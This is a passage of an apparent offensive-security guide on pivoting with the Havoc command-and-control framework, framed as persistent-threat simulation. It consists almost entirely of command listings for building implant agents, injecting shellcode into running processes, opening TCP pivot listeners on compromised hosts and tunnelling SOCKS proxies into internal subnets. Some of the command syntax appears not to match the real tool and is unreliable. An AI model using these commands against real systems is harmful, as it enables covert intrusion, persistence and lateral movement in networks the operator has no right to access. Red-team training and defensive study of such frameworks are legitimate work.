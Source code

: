 Havoc represents a state-of-the-art command and control framework with sophisticated pivoting capabilities designed for advanced persistent threat simulation.

### 6.1 Agent Deployment and Configuration

```bash
# Generate pivot-capable agent
havoc --generate-agent --arch x64 --format exe --sleep 5 --jitter 10 --pivot

# Deploy agent with custom configuration
havoc --agent-config sleep=10,jitter=20,killdate=2024-12-31

# Deploy via existing demon session
demon> spawn --arch x64 --format exe --listener pivot_tcp

# Agent with injection capabilities
demon> inject --pid 1234 --arch x64 --format shellcode
```

### 6.2 TCP Pivot Implementation

```bash
# Establish TCP pivot listener
demon> pivot tcp --lhost 192.168.1.100 --lport 4444

# Connect new agent through pivot
demon> pivot tcp --rhost pivot_host --rport 4444

# Bind TCP pivot on compromised host
demon> pivot tcp --bind --lport 443 --host 0.0.0.0

# List active pivots
demon> pivot list

# Remove specific pivot
demon> pivot remove --id 1
```

### 6.3 SOCKS Proxy Configuration

```bash
# Start SOCKS5 proxy through agent
demon> socks start --port 1080 --host 127.0.0.1

# SOCKS proxy with authentication
demon> socks start --port 1080 --user admin --pass secret

# Configure routing through SOCKS
demon> route add --network 10.10.10.0/24 --interface socks --port 1080

# Stop SOCKS proxy
demon> socks stop --port 1080

# List SOCKS proxies
demon> socks list
```

